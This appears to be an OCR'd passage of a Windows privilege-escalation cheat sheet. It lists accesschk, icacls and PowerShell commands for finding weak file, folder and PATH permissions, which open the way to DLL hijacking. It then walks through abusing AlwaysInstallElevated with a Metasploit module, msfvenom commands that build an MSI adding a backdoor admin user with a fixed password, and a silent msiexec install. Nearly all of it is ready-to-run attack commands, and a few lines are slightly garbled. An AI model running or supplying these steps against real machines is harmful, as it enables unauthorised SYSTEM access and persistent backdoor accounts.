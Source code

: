      # Find all weak folder permissions per drive.
     accesschk.exe -uwdqs Users c:\
     accesschk.exe -uwdqs "Authenticated Users" c:\
     accesschk.exe -uwdqs "Everyone" c:\
     
     # Find all weak file permissions per drive.
     accesschk.exe -uwqs Users c:\*.*
     accesschk.exe -uwqs "Authenticated Users" c:\*.*
     accesschk.exe -uwdqs "Everyone" c:\*.*
     
     # using icalcs
     icacls "C:\Program Files\*" 2>nul | findstr "(F) (M) :\" | findstr ":\ everyone authenticated users todos %username%"
     icacls ":\Program Files (x86)\*" 2>nul | findstr "(F) (M) C:\" | findstr ":\ everyone authenticated users todos %username%"
     
     # using Powershell
     Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'Everyone'} } catch {}} 

     Get-ChildItem 'C:\Program Files\*','C:\Program Files (x86)\*' | % { try { Get-Acl $_ -EA SilentlyContinue | Where {($_.Access|select -ExpandProperty IdentityReference) -match 'BUILTIN\Users'} } catch {}}
    ```
* PATH DLL Hijacking

```
 # having write permissions inside a folder present ON PATH could bring to DLL hijacking
 for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
```

* AlwaysInstallElevated set in Registry

```
 # if both are enabled (set to 0x1), it's possible to execute
 # any .msi as NT AUTHORITY\SYSTEM
 reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
 reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
 
 # check with msf
 exploit/windows/local/always_install_elevated
 
 # generate payload with msfvenom
 # no uac format
 msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o alwe.msi
 # using the msiexec the uac wont be prompted
 msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o alwe.msi
 
 # install .msi
 msiexec /quiet /qn /i C:\Users\Homer.NUCLEAR\Downloads\donuts.msi
```
